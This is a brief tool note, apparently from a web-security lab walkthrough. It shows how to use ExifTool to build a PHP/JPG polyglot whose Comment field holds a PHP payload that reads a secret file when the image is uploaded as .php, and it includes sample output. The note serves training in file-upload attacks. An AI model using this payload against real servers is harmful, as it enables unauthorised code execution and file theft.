 ## Exiftool

**Install**
See: https://exiftool.org/install.html#Unix

**Usage**
Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

This adds your PHP payload to the image's Comment field, then saves the image with a .php extension.

Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the `END` string, you should see Carlos's secret, for example:
`START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`
